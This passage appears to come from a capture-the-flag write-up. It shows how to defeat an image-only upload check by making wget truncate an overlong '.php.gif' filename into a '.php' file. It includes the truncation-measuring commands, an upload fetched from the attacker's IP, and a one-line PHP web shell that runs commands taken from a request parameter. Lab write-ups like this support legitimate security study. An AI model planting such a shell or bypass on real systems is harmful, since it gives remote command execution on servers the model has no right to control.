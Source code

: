 It uses **Wget** to download files and does not allow file types other than image files like _png_ and _gif_.
Combining this with the hint to _"know the limits"_, it is referencing to the maximum character length in `wget`.

Linux files have a maximum filename length of 255 characters and we can trick `wget` to shorten the filename and thus upload another file type.

Creating a pattern with 251 characters, creating a file with that filename and appending _".gif"_ to make it 255 characters long:
```markdown
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 251
```
```markdown
touch Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai.gif
```

Uploading the file:
```markdown
http://10.10.14.2/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai.gif
```

The file gets uploaded and `wget` automatically shortens the filename:
```markdown
The name is too long, 255 chars total.
Trying to shorten...
New name is Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah
(...)
```

The new file name is 236 characters long:
```markdown
echo -n 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah' | wc -c
```

This means we need a file with a filename of 232 characters, append _".php"_ and _".gif"_ and then it will cut the last part out to successfully upload a PHP file.

Creating file with 232 characters:
```markdown
python -c 'print "A" * 232'
```
```markdown
touch AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
```

Contents of the file:
```markdown
<?php echo system($_REQUEST['cmd']); ?>
```
